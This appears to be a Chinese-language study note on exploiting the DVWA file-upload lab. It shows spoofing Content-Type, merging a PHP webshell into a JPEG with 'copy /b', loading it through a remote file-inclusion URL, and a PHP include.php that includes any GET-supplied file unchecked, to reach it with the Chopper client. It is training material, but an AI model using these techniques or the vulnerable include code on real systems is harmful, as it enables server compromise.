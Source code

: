 ## dvwa学习 文件上传


### 参考资料

[文件解析漏洞总结-Apache](https://blog.csdn.net/wn314/article/details/77074477)


[DVWA-1.9全级别教程之File Upload](http://www.freebuf.com/articles/web/119467.html)

### 常见的上传漏洞分类

服务器配置不当导致文件上传

开源编辑器存在上传漏洞

本地文件上传限制可以上传被绕过

服务器端过滤不严可以被绕过
　

解析漏洞导致文件执行

文件路径截断



### 利用条件

文件上传漏洞的利用是有限制条件的，首先当然是要能够成功上传木马文件，其次上传文件必须能够被执行，最后就是上传文件的路径必须可知。

修改 Content-Type： ```Content-Type: image/png```


将图片和 webshell合并

```copy 2.jpeg/b+muma.php/a hack.jpg```




**参数/b指定以二进制格式复制、合并文件。 用于图像类/声音类文件**

**参数/a指定以ASCII格式复制、合并文件。 用于txt等文档类文件**


直接用图片链接菜刀不可连接。这里服务器将木马文件解析成了图片文件，因此向其发送post请求时，服务器只会返回这个“图片”文件，并不会执行相应命令。


这里可以借助文件包含漏洞来获取webshell权限

http://localhost:808/DVWA-master/vulnerabilities/fi/?page=http://192.168.255.151:8081/DVWA-master/hackable/uploads/hack.jpg

**用菜刀连接，发现可以查看目录。但无法dos及文件下载等操作。原因应该与dvwa有关。**

自己写一个 php include 函数 ,命名 include.php 。

	<?php
	 $file = $_GET[ 'page' ];
	 
	 echo $file;
	 
	 echo '<html><br/></html>';
	 
	 include $file;
	?>

将 一句话木马 放在 jpg中。用 include.php 包含jpg  连接菜刀，可以执行。 

```